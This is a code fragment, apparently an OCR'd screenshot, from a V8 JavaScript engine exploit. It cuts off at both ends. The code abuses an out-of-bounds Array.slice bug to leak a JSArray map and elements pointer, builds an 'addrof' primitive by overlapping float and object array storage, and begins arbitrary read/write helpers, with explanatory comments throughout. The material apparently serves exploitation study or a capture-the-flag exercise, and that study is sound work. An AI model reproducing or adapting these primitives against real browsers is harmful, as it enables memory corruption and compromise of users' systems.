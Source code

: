 ```js
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

// debugging function to display float values as hex
function toHex(val) {
        return "0x" + ftoi(val).toString(16);
}

// set up starter arrays to slice
a = [1.1, 2.2, 3.3];
b = [{A:1}, {B:2}, {C:3}];

// trigger the bug- sizeof new arrays = old array length + 2
float_arr = a.slice(0);
obj_arr = b.slice(0);

// this value exists 1 element past the end of the array, which is the start
// of the float JSArray (where its map is found)
float_map = float_arr[3];

// elements ptr for our float array is next to the map
float_elems = float_arr[4];


// map differences: obj - float = 0x50
// elements ptr: obj - float = 0x30
// these values are true if allocated in the order above
obj_map = itof(ftoi(float_map) + (0x50n));
obj_elems = itof(ftoi(float_elems) + (0x30n));

// helper functions to manipulate JSArray maps and elem pointers
function set_float_arr_map(val) { //typeof(val) == float
        float_arr[3] = val;
}

function set_float_arr_elems(val) { //typeof(val) == float
        float_arr[4] = val;
}

// point float elements to the obj elements
// float_arr and obj_arr now share an elements ptr, but treat
// the elements differently
set_float_arr_elems(obj_elems)

function addrof(in_obj) {
        // put the obj into our object array
        obj_arr[0] = in_obj;

        // accessing the first element of the float array
        // treats the value there as a float:
        let addr = float_arr[0];

        // Convert to bigint
        return ftoi(addr);
}

// 'arbitrary' r/w functions using the .slice() vuln to change the
// elements ptr to the given address
// due to pointer compression in v8, we can only use this r/w in the v8 heap
function arb_r(addr) { // typeof(addr) == BigInt
    t = [1.1]
    // read is performed at addr + 0x8
```
